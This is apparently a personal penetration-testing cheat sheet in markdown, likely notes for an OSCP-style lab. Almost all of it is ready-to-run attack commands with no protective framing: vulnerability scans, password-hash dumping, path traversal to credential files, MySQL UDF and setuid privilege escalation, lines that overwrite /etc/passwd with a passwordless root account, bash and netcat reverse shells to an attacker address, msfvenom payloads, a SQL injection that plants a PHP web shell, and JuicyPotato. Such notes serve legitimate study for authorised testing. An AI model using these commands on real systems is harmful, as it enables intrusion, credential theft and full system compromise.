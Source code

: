 # port scan
```
nmap -Pn --script vuln 192.168.1.105
```

```
nmap 10.11.1.7 --script=rdp-vuln-ms12-020.nse
```

```
nmap -sSV -p- --defeat-rst-ratelimit
```

```
nmap --script smb-os-discovery.nse 10.11.1.227 -T 4
```

# Windows
show Program Files

```
systeminfo
```

```
hostname
```

```
net users
```

```
netsh firewall show config
```

```
tasklist /SVC
```

```
tasklist
```

```
net start
```

# linux
show SUID files


# webdav.passwd
```
path=../../../../../../../../../../xampp/security/webdav.htpasswd
```

# meterpreter

```
set AutoRunScript post/windows/manage/migrate
```

```
run post/windows/gather/hashdump
```

```
use post/multi/manage/shell_to_meterpreter
msf post(shell_to_meterpreter) > set session 1
msf post(shell_to_meterpreter) > exploit
```

# wordpress
```
wpscan --url sandbox.local --enumerate ap,at,cb,dbe
```

# mysql
https://www.exploit-db.com/exploits/1518

```
cat - > raptor_udf2.c
 * mysql> use mysql;
 * mysql> create table foo(line blob);
 * mysql> insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
 * mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
 * mysql> create function do_system returns integer soname 'raptor_udf2.so';
 * mysql> select * from mysql.func;
 * mysql> select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');
 * mysql> select do_system('echo root::0:0:root:/root:/bin/bash > /etc/passwd');
 * mysql> \! sh
```

# mount

```
showmount -e 10.11.1.72
```

```
mount -t nfs 10.11.1.72:/ /tmp
```

```
mount -t nfs 192.168.XX.53:/ /tmp/mnt -no lock
```

https://www.exploit-db.com/exploits/46044

```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
    setuid(0); setgid(0); system("/bin/bash");
}
```

```
cat >fusermount.c<<EOF
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main(int argc, char **argv)
{
  setreuid(0,0);
  system("/usr/bin/touch /w00t");
  return(0);
}
EOF
```

# reverese shell
```
bash -c 'bash -i >& /dev/tcp/192.168.119.161/443 0>&1'
```

# etcpasswd
```
echo apache:x:0:0:root:/root:/bin/bash >> /etc/passwd
```

```
echo root::0:0:root:/root:/bin/bash > /etc/passwd
```

# smb

```
nmap --script smb-os-discovery.nse -p445,139 -v 10.11.1.115
```

# windows buffer overflow
## pattern
```
msf-pattern_create -l 3000
```

```
msf-pattern_offset -l 3000 -q
```
# jmp esp

```
!mona modules
```

```
!mona jmp -r esp –cpb '\x00\x0a\x0d
```

```
!mona find -s "\xff\xe4" -m
```

```
!mona find "\xff\xe4" -m essfunc.dll
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.210.134 LPORT=443 -f python -v buf c –e x86/shikata_ga_nai -b "\x0a\x0c\x00\x0a\x0d"
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.XX.43 LPORT=1337 -f c -a x86 --platform windows -b "\x0a\x0c\x00\x0a\x0d"
```

```
badchars = ( 
b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff") 
```

# flag
type "C:\Documents and Settings\Administrator\Desktop\proof.txt"

# migrate

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.XX.XX LPORT=443 -f exe -a x86 --platform win > WScheduler.exe
```

# xampp

```
..\..\..\..\xampp\htdocs\blog\wp-config.php
```

# sql injection

```
http://10.11.1.252:8000/edit_user.php?user_id=-7579 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE '/var/www/html/shell.php'
```

https://www.exploit-db.com/exploits/1518
```
select do_system('echo root::0:0:root/root:/bin/bash > /etc/passwd');
```

# snmp

```
snmpwalk -v 1 -c public
```

# windows reverese shell

```
echo C:\Users\user\Desktop\nc.exe 192.168.123.123 12345 -e cmd.exe > rev.bat
```
# JuicyPotato
```
JuicyPotato.exe -l 9997 -p C:\Users\user\Desktop\rev.bat -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
```
